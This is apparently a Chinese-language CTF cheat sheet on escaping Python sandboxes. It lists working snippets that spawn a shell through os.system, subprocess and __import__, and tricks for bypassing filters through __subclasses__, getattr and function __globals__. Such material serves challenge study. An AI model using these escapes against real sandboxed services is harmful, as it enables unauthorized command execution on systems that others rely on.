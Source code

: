 # Python Sanbox Challenge in CTF

Python Sandbox 的題目通常都是可以讓我們執行 python 的程式碼，但是會有各種檢查

### 目標

**Get shell**

```python
import os
os.system("sh")
```

```python
import subprocess
subprocess.Popen(["sh"])
```

```python
import sys
sys.modules["os"].system("sh")
```

### 小技巧

#### `__import__`

`import` 其實是去呼叫 `__import__`

```python
__import__("os").system("sh")
```

#### 拉圾堆

可以從這些地方找可以用的東西

```python
globals()
locals()
{}.__class__.__base__.__subclasses__()
{}.__class__.__mro__[1].__subclasses__()
```

#### `getattr`

`.` 可以用 `getattr` 取代

```python
os.system("sh")
getattr(os, "system")("sh")
```

#### 共享視野

當我們有一個檔案 `test.py` 長這樣

```python
import os

def test():
    print("test")
```

我們可以跟 `test` 函式共享視野

```python
from test import test
test.__globals__["os"].system("sh")
test.__globals__["__builtins__"]["__import__"]("os").system("ls")
```

### 各種底線是什麼

#### `__builtins__`

會自動載入為全域變數，包括各種內建函式 ( ex: `print`, `dir`, ... )

```python
__builtins__ = __import__("__builtin__") # python2
__builtins__ = __import__("builtins")    # python3
```
